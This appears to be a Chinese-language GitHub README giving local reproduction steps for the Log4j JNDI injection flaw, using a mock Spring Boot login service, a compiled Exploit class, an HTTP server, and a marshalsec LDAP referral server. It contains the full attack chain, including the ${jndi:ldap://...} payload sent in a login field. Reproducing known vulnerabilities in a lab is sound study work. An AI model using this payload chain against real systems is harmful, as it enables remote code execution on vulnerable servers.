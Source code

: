 # log4j漏洞复现
## 复现步骤
1. 启动springboot-user模块,这个模块模拟一个正常的系统，有个登录接口
2. 进入根目录下的src目录，运行Exploit的main方法，该方法会在d盘创建一个1.txt文件,可自行修改，运行之后在target目录下会生成Exploit.class文件
3. 在本地启动http服务,如nginx,使其可以通过http链接访问到Exploit.class，如http://127.0.0.1:4444/Exploit.class
4. 使用maven打包marshalsec模块，执行后，如果可以在marshalsec的target模块中看到marshalsec-0.0.3-SNAPSHOT.jar，表明执行成功
5. 使用终端进入到marshalsec的target目录下，执行命令，启动ldap服务
```text
// 将其中的127.0.0.1:4444换成http服务的ip和端口号
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer  "http://127.0.0.1:4444/#Exploit" 1389
```
6. 请求登录接口，观察结果
```text
POST http://localhost:8080/login
Content-Type: application/x-www-form-urlencoded

userName=${jndi:ldap://127.0.0.1:1389/#Exploit}
```